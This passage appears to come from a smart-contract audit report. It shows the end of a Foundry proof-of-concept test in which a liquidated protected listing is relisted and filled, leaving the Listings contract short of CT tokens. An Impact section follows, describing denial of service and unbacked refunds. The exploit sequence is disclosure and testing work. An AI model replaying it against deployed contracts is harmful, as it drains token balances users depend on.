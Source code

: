 ```solidity
        });
        vm.stopPrank();

        skip(2 days); // Skip some time again

        //Ensure relister has no balance in escrow before filling the listing
        vm.prank(_relister);
        vm.expectRevert();
        listings.withdraw(address(token), 0.0000000000001 ether);
        
        //Someone fills the listing 
        //It will help us show the loss of funds, since we could compare balance delta
        uint[][] memory tokenIdsOut = new uint[][](1);
        tokenIdsOut[0] = new uint[](1);
        tokenIdsOut[0][0] = _tokenId;

        vm.startPrank(randomBuyer);
        token.approve(address(listings), 3.5 ether);
        listings.fillListings(
            IListings.FillListingsParams({
                collection: address(erc721a),
                tokenIdsOut: tokenIdsOut
            })
        );
        vm.stopPrank();

        //Since someone filled the listing, the relister should get some refund back.
        //and some part of the tax will be sent to the Uniswap contract, when fillListing is called.

        vm.startPrank(_owner);
        listings.withdraw(address(token), 385714285714285);
        vm.stopPrank();

        vm.startPrank(_relister);
        listings.withdraw(address(token), 50000000000000000);
    
        //Compare balance delta for Listings contract should be 0, however its negative:

        // 5000000000000000000 - 4959596428571428572 = 40403571428571428
        // 40403571428571428 = 0.040403571428571428 CT
        assertEq(token.balanceOf(address(listings)), startBalanceListingContract - 40403571428571428);

        // Uniswap pool received some rewards.
        assertEq(token.balanceOf(address(uniswapImplementation)), uniswapPoolStartBalance + 51042857142857143);
    }
```    
## Impact
- `Listing.sol` running out of balance could DoS the `fillListings()`, `cancelListings()`, `relist()`, `modifyListing()` or `reserve()` functions which require the `CT` balance.
- Refunded amount to the Owner of the ProtectedListing that was liquidated is just FREE `CT` tokens.
- Admin cannot recover damages, he can just mint `CT` with `unbackedDeposit()` to avoid DoS, but it is guaranteed inflation as there won't be any backing value. The `CT` was stolen out in `REFUND` and for `FEES` to the UniswapV4Pool.

